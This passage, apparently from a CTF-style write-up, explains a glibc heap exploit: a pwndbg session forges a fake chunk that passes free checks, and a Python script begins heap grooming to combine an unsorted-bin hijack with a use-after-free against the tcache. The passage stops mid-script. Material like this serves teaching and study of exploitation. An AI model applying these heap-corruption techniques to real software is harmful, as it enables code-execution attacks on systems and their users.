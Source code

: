 ```

pwndbg> set {long}(0x56355a945080+0x10000)=0x10000
pwndbg> set {long}(0x56355a945080+0x10008)=0x21

pwndbg> try_free 0x56355a945090
General checks
Not mapped checks
Next chunk is not top chunk
Forward consolidation
Doing malloc_consolidate and systrim/heap_trim
----------
All checks passed!
```
*(Note: we do not need to call `free` on this chunk. It is purely to illustrate that `libc` would consider it a valid chunk if the proper bytes are set)*

We will use this to hijack an `unsorted bin` entry in combination with a `UAF` to fake a chunk in the `per-thread cache`. If you do not know what an `unsorted bin` entry looks like, perhaps you should read [https://sourceware.org/glibc/wiki/MallocInternals](https://sourceware.org/glibc/wiki/MallocInternals).

##### Execution

Now comes the part of actually doing. The plan is as mentioned to craft a valid `free chunk` which can be indexed in an `unsorted bin` array. This means the `BCK` and `FWD` pointers have to be valid. We can use the `UAF` to make a `0x18` and `0x28` chunk to fulfill this requirement. Combined with the `0x3d8` and `0x3e8` count entries, a valid fake `unsorted bin` entry can be crafted.

First thing first, we need to allocate some chunks needed for later and fill up the `0x90 t-cache`:
```python
#####################################
#           Prep allocations        #
#####################################

# This is the chunk size we will be working with for the unsorted bin hijack
mal_size = 0x88

# Make allocations for exhausting t-cache for later
tcache_0x90 = []
tcache_0x1b0 = []
for i in range(7):
    tcache_0x90.append(malloc(mal_size, b'TCACHE_FUEL'))
for i in range(7):
    tcache_0x1b0.append(malloc(0x1a8, b'TCACHE_FUEL'))

# Set 0x10001 in heap above 0x20 and 0x30 t-cache list
free(malloc(0x3d8, b'LSB OF FAKE CHUNK SIZE'))
free(malloc(0x3e8, b'MSB OF FAKE CHUNK SIZE'))

# Prep the allocation for two large unosrted bin entries with the ability
# to create a UAF
malloc(0x18, b'GUARD 1')
a1 = malloc(mal_size, b'A1'*(mal_size//2))
b1 = malloc(mal_size, b'B1'*(mal_size//2))
c1 = malloc(mal_size, b'C1'*(mal_size//2))
d1 = malloc(mal_size, b'D1'*(mal_size//2))
malloc(0x18, b'GUARD 2')
a2 = malloc(mal_size, b'A2'*(mal_size//2))
b2 = malloc(mal_size, b'B2'*(mal_size//2))
c2 = malloc(mal_size, b'C2'*(mal_size//2))
d2 = malloc(mal_size, b'D2'*(mal_size//2))
malloc(0x18, b'GUARD 3')

# Fill up the 0x90 t-cache
for i in tcache_0x90:
```